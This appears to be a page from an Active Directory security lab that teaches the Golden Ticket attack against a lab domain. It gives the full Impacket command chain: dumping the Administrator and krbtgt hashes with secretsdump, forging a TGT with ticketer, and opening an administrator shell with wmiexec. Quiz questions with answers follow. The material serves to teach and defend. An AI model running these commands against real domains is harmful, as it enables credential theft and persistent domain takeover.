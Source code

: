 #Golden Tickets

Golden Tickets are a persistence attack in AD. They consist of TGTs that are forged by the attacker using the krbtgt's account hash. This hash value is used for deriving Kerberos keys, which are in turn used for creating and issuing TGTs. If the attacker can retrieve this account's hash, the attacker can then forge a Kerberos TGT with arbitrary information. Using this forged ticket, the attacker can then access domain services however he likes.

In order to retrieve the krbtgt's hash value, you'll need admin access to the domain. This can be achieved by performing previous attacks in this lab such as the ACL Abuse attack, the SAMAccountName spoofing attack, the NTLM relay to SMB attack, and more. If for some reason you weren't able to retrieve the administrator's hash values, run the following command, and take note of the hash value.

```
secretsdump.py -just-dc-user 'Administrator' polaris.local/Administrator:Passw0rd@192.168.122.10 
```

To forge a Golden Ticket:
```
#retrieve the polaris.local domain's SID
lookupsid.py -no-pass -hashes <admin:hashes> -domain-sids polaris.local/Administrator@192.168.122.10 0
#get the krbtgt account hash
secretsdump.py -just-dc-user 'krbtgt' polaris.local/administrator@192.168.122.10 -hashes <admin:hashes>
#example output
#[+] krbtgt:502:aad3b435b51404eeaad3b435b51404ee:640464e963ce78864650de778a6b9c31:::
#in the command below, you must use the NT hash, which in the example output i gave you, is the second value (640464e963ce78864650de778a6b9c31)
ticketer.py -nthash <krbtgt's NTHash> -domain-sid <domain SID> -domain polaris.local Administrator
#At this point you've crafted a golden ticket, a TGT referencing the administrator account, which can be used to access any service in the domain as the administrator, for a long period of time
export KRB5CCNAME=/your/dir/Administrator.ccache
#Create a shell session using the forged ticket with administrator permissions
wmiexec.py -k -no-pass polaris.local/Administrator@captain.polaris.local
whoami
```

!!! question
    What is a Golden Ticket in Active Directory?
??? success "Answer"
    A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) created using the krbtgt account’s NT hash. With it, an attacker can impersonate any user, including Domain Admins, and access domain resources at will.
!!! question
    Why is the krbtgt account hash required to forge a Golden Ticket?
??? success "Answer"
    The krbtgt account hash is the secret key the KDC uses to sign and validate TGTs. If an attacker has this hash, they can generate valid-looking TGTs that the KDC will accept as legitimate.
!!! question
    How can an attacker retrieve the krbtgt account hash?
??? success "Answer"
    The attacker needs domain admin–level access to dump the krbtgt account credentials. This can be achieved through other attacks such as ACL abuse, SAMAccountName spoofing or NTLM relay to SMB.